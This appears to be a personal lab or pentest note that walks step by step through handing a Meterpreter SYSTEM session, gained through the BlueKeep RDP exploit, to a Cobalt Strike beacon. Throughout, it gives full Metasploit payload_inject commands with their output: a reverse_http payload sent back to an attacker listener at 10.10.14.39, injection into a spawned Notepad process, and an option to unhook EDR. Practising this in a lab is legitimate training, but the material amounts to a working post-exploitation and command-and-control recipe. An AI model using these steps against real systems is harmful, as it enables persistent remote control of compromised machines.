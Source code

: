 setup listener on `cobaltstrike` with parameters below
`payload windows/beacon_http/reverse_http`
![[ss-20250911-cobaltstrike-listener-setup.png]]
in already exploited session press `ctrl + z` in meterpreter shell to background the `shell`session if in a shell
```bash
c:\Users\wsadmin\Desktop>^Z                                                                                                                             
Background channel 1? [y/N]  y     
```
background the meterpreter session with `ctrl + z` again
```bash
meterpreter >                                                                                                                                           
Background session 1? [y/N]  y   
```
`sessions` to ensure that the session was properly backgrounded
```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > sessions             
                                                                                                                                                        
Active sessions                                                             
===============                                                             
                                                                            
  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WS02  10.10.14.39:8443 -> 10.10.110.3:37353 (172.16.1.101)
```
once backgrounded `use exploit/windows/local/payload_inject`
- `set PAYLOAD windows/x64/meterpreter/reverse_http` the x64 bit payload did not work for me, keep that in mind.
```bash
msf6 exploit(windows/local/payload_inject) > use exploit/windows/local/payload_inject  
```
`show options`
```bash
msf6 exploit(windows/local/payload_inject) > show options                                                                                               
                                                                                                                                                        
Module options (exploit/windows/local/payload_inject):                                                                                                  
                                                                                                                                                        
   Name         Current Setting  Required  Description                                                                                                  
   ----         ---------------  --------  -----------                                                                                                  
   AUTOUNHOOK   false            no        Auto remove EDRs hooks                                                                                       
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process                                     
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)                     
   SESSION                       yes       The session to run this module on                                                                            
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed  
```
`set lhost 10.10.14.39` 
- cobalt strike server // probably kali host
`set lport 80` 
- port that the cobalt beacon is listening on
`set DisablePayloadHandler True` 
- because we don't need a handler, cobalt beacon is handling it
`sessions` 
- to get active sessions to set it correctly
`set PAYLOAD windows/meterpreter/reverse_http` 
- setting correct payload
```bash
msf6 exploit(windows/local/payload_inject) > set lhost 10.10.14.39                                                                                      
lhost => 10.10.14.39                                                                                                                                    
msf6 exploit(windows/local/payload_inject) > set lport 80                                                                                               
lport => 80                                                                                                                                             
msf6 exploit(windows/local/payload_inject) > set DisablePayloadHandler True                                                                             
DisablePayloadHandler => true
msf6 exploit(windows/local/payload_inject) > set PAYLOAD windows/meterpreter/reverse_http                                                               
PAYLOAD => windows/meterpreter/reverse_http            
msf6 exploit(windows/local/payload_inject) > sessions                                                                                                   
                                                                                                                                                        
Active sessions                                                                                                                                         
===============                                                                                                                                         
                                                                                                                                                        
  Id  Name  Type                     Information                 Connection                                                                             
  --  ----  ----                     -----------                 ----------                                                                             
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WS02  10.10.14.39:8443 -> 10.10.110.3:37353 (172.16.1.101)                                   
                                                                                                                                                        
msf6 exploit(windows/local/payload_inject) > set session 1                                                                                              
session => 1                                                                                                          
```
`unset proxy` 
- making sure that proxy isnt set so we can hit our teams server
```bash
msf6 exploit(windows/local/payload_inject) > unset proxy
Unsetting proxy...
```
`exploit -j` 
- detonate exploit and run in background
```bash
msf6 exploit(windows/local/payload_inject) > exploit -j                                                                                                 
[*] Exploit running as background job 1.                    
[*] Running module against WS02
[*] Spawned Notepad process 3020
[*] Injecting payload into 3020
[*] Preparing 'windows/meterpreter/reverse_http' for PID 3020

```
on as system beacon now :D 
![[ss-20250911-meterpreter-to-cobaltstrike-session-pass.png]]